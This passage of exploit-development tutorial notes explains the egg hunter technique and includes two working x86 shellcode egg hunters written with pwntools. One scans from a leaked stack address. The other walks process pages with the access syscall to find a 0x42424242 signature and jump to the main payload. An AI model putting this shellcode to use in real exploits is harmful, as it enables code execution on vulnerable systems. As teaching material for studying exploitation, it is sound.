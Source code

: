 + The concept now is to place a small shellcode payload into the small vulnerable buffer that searches for the main shellcode in the larger non vulnerable buffer
+ But how do we search for this larger buffer and how do we know when we've found it?

### The Egg Hunter

+ To begin with we decide on a 'unique' string of bytes that we will use as a signature to search for
    + This 'unique' string will be placed at the beginning of the main shellcode
+ It is not possible to guarantee that the chosen string will only appear once on the stack and thus the search may occasionally return false positives 
+ The shellcode for the hunter uses a neat x86 instruction called [scasd](https://c9x.me/x86/html/file_module_x86_id_287.html) 
+ Once we locate our signature we jump there and execute our main shellcode

```python
# Shellcode for egghunter with leaked stack address
# Signature : 0x42424242
egghunt_shellcode = asm(f'''
	mov eax, 0x42424242
	mov edi, {stack_base_address}
	next_addr:
		scasd
		jnz next_addr
	
	jmp edi
''')
```

+ Without a leaked stack address (from which to calculate the stack_base) we can search each of the processes pages withing its address space
+ Attempting to read some of these may result in faults being triggered so we need a way to test that we can read a particular page
+ We also need the page size in order to calculate a range to search, this could be brute forced in the face of an unknown system

```python
# Ref:         https://mosunit.com
# Signature : 0x42424242
egghunt_shellcode = asm('''
    global _start
    section .text
    _start:
            xor edx, edx            
    align_page:
            or dx, 0xffff          
    traverse_page:
            inc edx                 
    ; access syscall
            lea ebx, [edx + 4]      
            push byte 0x21          
            pop eax                 
            int 0x80
    ; validate memory address
            cmp al, 0xf2            
            jz align_page           
    ; search egg
            mov eax, 0x42424242     
            mov edi, edx            
            scasd                   
            jnz traverse_page       
            scasd                   
            jnz traverse_page       
    ; jump to shellcode
            jmp edi             
''')
```